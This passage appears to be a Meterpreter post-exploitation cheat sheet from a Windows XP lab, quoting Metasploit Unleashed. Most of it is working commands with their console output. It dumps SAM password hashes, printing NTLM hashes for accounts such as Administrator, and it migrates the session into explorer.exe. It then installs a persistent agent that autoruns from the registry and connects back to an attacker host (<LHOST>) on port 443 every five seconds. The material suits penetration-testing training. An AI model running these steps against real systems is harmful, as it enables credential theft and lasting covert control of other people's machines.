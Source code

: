 In this case, we execute cmd.exe on the target machine and specify that we want to interact with the process.

[ + ] Lets dump some hashes from the SAM Database.

meterpreter> run post/windows/gather/hashdump 

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter>

Or you can just type hashdump...


[ + ] Migrate to a more stable process.

meterpreter> run post/windows/manage/migrate 

[*] Running module against V-MAC-XP
[*] Current server process: svchost.exe (1076)
[*] Migrating to explorer.exe...
[*] Migrating into process ID 816
[*] New server process: Explorer.EXE (816)
meterpreter>

You can also specify to migrate to some PID. For example - use cmd.exe to open notepad and then grab the PID to migrate to it with: migrate <PID>

[ + ] Lets Install a persistent service.

meterpreter> run persistence -U -i 5 -p 443 -r <LHOST>
[*] Creating a persistent agent: LHOST=LHOST LPORT=443 (interval=5 onboot=true)
[*] Persistent agent script is 613976 bytes long
[*] Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
[*] Agent executed with PID 492
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter>

"We will configure our persistent Meterpreter session to wait until a user logs on to the remote system and try to connect back to our listener every 5 seconds at IP address <LHOST> on port 443."
https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/


[ + ] Can we forward out a local port with meterpreter to 0.0.0.0 on our attacking machine?
--> Yup.
